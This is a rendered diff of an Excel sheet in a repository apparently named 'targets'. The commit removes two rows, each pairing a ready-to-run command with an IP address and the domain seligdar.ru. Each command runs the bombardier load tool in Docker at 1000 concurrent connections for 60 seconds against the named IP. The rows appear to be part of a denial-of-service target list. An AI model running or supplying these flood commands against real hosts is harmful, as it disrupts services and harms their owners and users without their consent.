

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
-row 76: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.47.160.18&& sleep 5; | 84.47.160.18 | seligdar.ru
-row 77: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.47.160.19&& sleep 5; | 84.47.160.19 | seligdar.ru
```
